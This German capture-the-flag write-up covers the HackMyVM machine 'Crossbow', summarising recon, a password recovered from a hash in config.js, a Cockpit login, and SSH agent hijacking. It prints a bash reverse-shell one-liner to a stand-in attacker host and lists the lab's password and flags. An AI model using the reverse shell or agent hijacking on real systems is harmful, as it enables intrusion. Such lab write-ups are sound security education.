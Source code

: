# Crossbow - HackMyVM (Medium)

![Crossbow Icon](Crossbow.png)

## Übersicht

*   **VM:** Crossbow
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Crossbow)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 8. Dezember 2023
*   **Original-Writeup:** https://alientec1908.github.io/Crossbow_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Crossbow" von HackMyVM (Schwierigkeitsgrad: Medium) wurde durch eine Kette von Schwachstellen kompromittiert. Die initiale Informationsbeschaffung führte zur Entdeckung eines API-Keys (als Snefru-Hash) im JavaScript-Code einer Webseite. Nach Entschlüsselung dieses Hashes konnte damit auf eine Cockpit-Instanz auf Port 9090 als Benutzer `polo` zugegriffen werden. Über das integrierte Terminal von Cockpit wurde eine Reverse Shell erlangt. Die Privilegienerweiterung zum Benutzer `lea` erfolgte durch SSH Agent Hijacking, indem auf einen SSH-Agent-Socket des Benutzers `lea` im `/tmp`-Verzeichnis zugegriffen wurde. Der finale Schritt zur Root-Eskalation wurde im Original-Writeup nicht detailliert, aber die Flags wurden präsentiert.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `wfuzz` (für vHost Fuzzing)
*   `nmap`
*   `nikto`
*   `gobuster`
*   `curl`
*   Web Browser
*   md5hashing.net (oder ähnliches Online-Tool für Snefru-Hash-Decryption)
*   `nc` (netcat)
*   Standard Linux-Befehle (`find`, `ss`, `ps`, `grep`, `awk`, `ls`, `cat`, `cd`)
*   `ssh-agent`, `ssh`
*   `whatweb` (im Tool-Verzeichnis gelistet, aber nicht explizit im Ablauf verwendet)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Crossbow" erfolgte in diesen Schritten:

1.  **Reconnaissance & Web Enumeration:**
    *   Ziel-IP (`192.168.2.122`, Hostname `crossbow.hmv`) via `arp-scan` und `/etc/hosts` identifiziert.
    *   vHost-Fuzzing mit `wfuzz` fand keine weiteren Subdomains für `crossbow.hmv`.
    *   `nmap` zeigte offene Ports: 22 (SSH 9.2p1), 80 (Apache 2.4.57 - Titel "Polo's Adventures") und 9090 (unbekannter Dienst, vermutlich Cockpit).
    *   `nikto` auf Port 80 ergab nur geringfügige Funde.
    *   `gobuster` auf Port 80 fand `app.js` und `config.js`.

2.  **Credential Discovery & Cockpit Access:**
    *   Analyse von `config.js` offenbarte einen API-Endpunkt (`https://phishing.crossbow.hmv/data`) und einen `HASH_API_KEY`: `49ef6b765d39f06ad6a20bc951308393`. Metadaten verwiesen auf "SnefruTools V1".
    *   Der Hash wurde als Snefru-Hash identifiziert und online zu `ELzkRudzaNXRyNuN6` entschlüsselt.
    *   Der Hostname `phishing.crossbow.hmv` wurde zur `/etc/hosts`-Datei hinzugefügt.
    *   Mit dem Benutzernamen `polo` (aus dem Seitentitel "Polo's Adventures") und dem entschlüsselten Passwort `ELzkRudzaNXRyNuN6` gelang der Login in die Cockpit-Weboberfläche auf `http://crossbow.hmv:9090/`.

3.  **Initial Access (polo via Cockpit Terminal):**
    *   Über das integrierte Terminal der Cockpit-Weboberfläche wurde ein Bash-Reverse-Shell-Befehl ausgeführt: `bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'`.
    *   Eine Reverse Shell als Benutzer `polo` wurde erfolgreich etabliert.

4.  **Privilege Escalation (polo zu lea via SSH Agent Hijacking):**
    *   Enumeration als `polo` zeigte im `/tmp`-Verzeichnis einen SSH-Agent-Socket, der dem Benutzer `lea` gehörte (z.B. `/tmp/ssh-XXXXXX0hTUR2/agent.[PID]`).
    *   Der `ssh-agent`-Prozess für `lea` wurde ebenfalls mit `ps` identifiziert.
    *   Durch Setzen der Umgebungsvariable `SSH_AUTH_SOCK` auf den Pfad zum Socket von `lea` und Ausführen von `ssh lea@crossbow.hmv` (oder `ssh lea@localhost`) konnte die Authentifizierung über den gekaperten Agenten erfolgen.
    *   Eine Shell als Benutzer `lea` wurde erlangt.
    *   Die User-Flag wurde (vermutlich) aus `/home/lea/user.txt` gelesen.

5.  **Privilege Escalation (lea zu root):**
    *   *Dieser Schritt wurde im ursprünglichen Writeup-Log nicht detailliert. Es wird angenommen, dass weitere Enumeration als `lea` (z.B. `sudo -l`, SUID-Binaries, Kernel-Exploits) zu Root-Rechten führte.*

## Wichtige Schwachstellen und Konzepte

*   **Client-Side Credential Leakage:** API-Key (als unsicherer Snefru-Hash) im JavaScript-Code.
*   **Verwendung unsicherer Hash-Algorithmen:** Snefru ist für die Passwortspeicherung ungeeignet.
*   **Schwache Passwörter / Passwort-Wiederverwendung:** Das entschlüsselte API-Passwort war auch das Cockpit-Passwort für `polo`.
*   **Command Execution via Admin Panel:** Ausführung einer Reverse Shell über das Cockpit-Terminal.
*   **SSH Agent Hijacking:** Ausnutzung eines zugänglichen SSH-Agent-Sockets eines anderen Benutzers zur Identitätsübernahme.
*   **Unsichere Berechtigungen im `/tmp`-Verzeichnis:** Erleichterten das SSH Agent Hijacking.

## Flags

*   **User Flag (`/home/lea/user.txt` - vermutet):** `58cb1e1bdb3a348ddda53f22ee7c1613`
*   **Root Flag (`/root/root.txt` - vermutet):** `7a299c41b1daac46d5ab98745b212e09`

## Tags

`HackMyVM`, `Crossbow`, `Medium`, `Web`, `JavaScript`, `Snefru Hash`, `Cockpit`, `Reverse Shell`, `SSH Agent Hijacking`, `Privilege Escalation`, `Linux`
